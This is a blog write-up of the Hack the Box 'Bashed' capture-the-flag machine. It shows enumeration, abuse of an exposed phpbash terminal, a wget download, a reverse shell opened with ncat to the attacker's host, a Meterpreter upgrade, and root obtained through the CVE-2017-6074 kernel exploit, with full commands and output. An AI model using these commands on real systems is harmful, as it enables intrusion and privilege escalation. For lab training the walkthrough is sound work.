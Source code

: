 ```yaml
---
title: Bashed, Hack the Box CTF Walkthrough
description: 
tag: CTF
image: /assets/img/posts/2021-03-05-bashed-hack-the-box-walkthrough/bashed.png
layout: post
description: ""
date:   2021-03-04 20:01:21 -0400
last-updated: 2021-03-04 20:01:21 -0400
tag: ctf
author: Tyler Butler
lead: "Bashed is an easy level CTF challenge from HTB, solved with an initial user compromise through a developer misconfiguration and privilege escalation with the Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free Privilege Escalation Exploit"
card: card-2
---
```


Bashed is a boot to root CTF from the Hack the Box archives. This was one of my favorite retired HTB challenges so far. The challenge involves initial user compromise using a developer's misconfigured server, but requires significant more work to escalate privileges to root. This challenge forced me to think outside the box for managing shells and was overall a good CTF.  

## Enumeration  

First, I conducted a basic nmap scan to enumerate open ports and services running on the target machine. The scan revealed an apache webserver was running on port 80.  

```bash
┌──(kali㉿kali)-[~/Documents/htb/bashed]
└─$ nmap -sV --top-ports 200 10.10.10.68           
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-05 09:06 EST
Nmap scan report for 10.10.10.68
Host is up (0.035s latency).
Not shown: 199 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.05 seconds
```  

## Web Application Testing   

Second, I launched BurpSuite and a firefox browser to being inspecting the target's web application. In the background, I started `dirb` a directory brute forcing tool. The resulting dirb scan revealed a directory called `dev`.  

```bash
┌──(kali㉿kali)-[~/Documents/htb/bashed]
└─$ dirb http://10.10.10.68         

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Mar  5 09:10:15 2021
URL_BASE: http://10.10.10.68/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.68/ ----
==> DIRECTORY: http://10.10.10.68/css/                                                                                                          
==> DIRECTORY: http://10.10.10.68/dev/                                                                                                          
==> DIRECTORY: http://10.10.10.68/fonts/                                                                                                        
==> DIRECTORY: http://10.10.10.68/images/                                                                                                       
+ http://10.10.10.68/index.html (CODE:200|SIZE:7743)                                                                                            
==> DIRECTORY: http://10.10.10.68/js/                                                                                                           
==> DIRECTORY: http://10.10.10.68/php/                                                                                                          
+ http://10.10.10.68/server-status (CODE:403|SIZE:299)                                                                                          
==> DIRECTORY: http://10.10.10.68/uploads/    
```  

## Exploit Developer Tools  

After reading the index page of the website, I understood the server was also being used to develop the tool [php bash](https://github.com/Arrexel/phpbash). Browsing the /dev path shows that indeed, a working version of phpbash is running on the target server. The program allows a user to interact with a bash like terminal through the browser itself. I used this terminal to find the user flag, which was located at `/home/arrexel`.  

<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-03-05-bashed-hack-the-box-walkthrough/user-flag.png">
    </div>
</div>
<br/>  


## Privilege Escalation  

To start the privilege escalation process, I wanted to upgrade my shell from the phpBash shell to a meterpreter one. Unfortunately, when trying to send a reverse shell to my attacker machine with `netcat`, an error message occured stating that the -e option was not available. This was because the installed version of netcat was the BSD flavor (netcat-openBSD), only the traditional netcat (netcat-traditional) supports the -e option which is required to send a reverse shell. To get around this, I found a <a class="highlighted" href="https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/ncat">linux binary version</a>of the traditional netcat. After downloading the binary, I put in the `/var/www/html` directory to serve with the apache webserver, then used `wget` to download the file to the target machine through the dev phpBash terminal. 

```bash
www-data@bashed:/var/www/html/uploads# wget 10.10.14.13/ncat-d
```  

Next, I started a listener on my attack machine with the multi/handler on metasploit to catch the reverse shell.  

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
```  
Once the handler was started, I used the the phpBash sell to issue a reverse shell through the uploaded ncat binary. 

```bash
www-data@bashed:./ncat-d 10.10.14.13 4444 -e /bin/bash
```  


```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] Command shell session 1 opened (10.10.14.13:4444 -> 10.10.10.68:48554) at 2021-03-05 18:34:33 -0500
```  

### Upgrading to Meterpreter Shell

Once I recieved the reverse shell, I background it with the cntl-z option. To upgrade this basic shell to a meterpreter one, I used the `multi/manage/shell_to_meterpreter` module. After configuring the necessary options, I executed the module and started the meterpreter session.  

```bash
msf6 post(multi/manage/shell_to_meterpreter) > set LHOST 10.10.14.13
LHOST => 10.10.14.13
msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.14.13:4433 
[*] Sending stage (980808 bytes) to 10.10.10.68
[*] Meterpreter session 2 opened (10.10.14.13:4433 -> 10.10.10.68:42086) at 2021-03-05 18:38:50 -0500
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) > 
```  

## Privilege Escalation via CVE-2017-6074

The last stage to escalate privileges was to find a public exploit that would work against the linux kernel. Some online research revealed that the Ubuntu 16.04 (Linux 4.4.0-62-generic) kernel being used by the target could be vulnerable to. CVE-2017-6074. I downloaded a proof of concept from <a class="highlighted" href="https://www.exploit-db.com/exploits/41458">exploi-db</a>. Using `GCC`, I compiled the exploit, then uploaded it to the target using the `upload` meterpreter command back in the metepreter session.  


```bash
meterpreter > upload /home/kali/Documents/htb/bashed/CVE-2017-6074
[*] uploading  : /home/kali/Documents/htb/bashed/CVE-2017-6074 -> CVE-2017-6074
[*] Uploaded -1.00 B of 23.19 KiB (-0.0%): /home/kali/Documents/htb/bashed/CVE-2017-6074 -> CVE-2017-6074
[*] uploaded   : /home/kali/Documents/htb/bashed/CVE-2017-6074 -> CVE-2017-6074
meterpreter > chmod 777 CVE-2017-6074 
meterpreter > shell
Process 819 created.
Channel 2 created.
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@bashed:~/html/uploads$ 


www-data@bashed:~/html/uploads$ whoami
whoami
www-data
www-data@bashed:~/html/uploads$ ./CVE-2017-6074
./CVE-2017-6074
[.] namespace sandbox setup successfully
[.] disabling SMEP & SMAP
[.] scheduling 0xffffffff81064550(0x406e0)
[.] waiting for the timer to execute
[.] done
[.] SMEP & SMAP should be off now
[.] getting root
[.] executing 0x564e7dc912aa
[.] done
[.] should be root now
[.] checking if we got root
[+] got r00t ^_^
[!] don't kill the exploit binary, the kernel will crash
root@bashed:/var/www/html/uploads# whoami
whoami
root
root@bashed:/var/www/html/uploads# cat /root/root.txt
cat /root/root.txt
cc4f0afe3a1026d402ba10329674a8e2
```


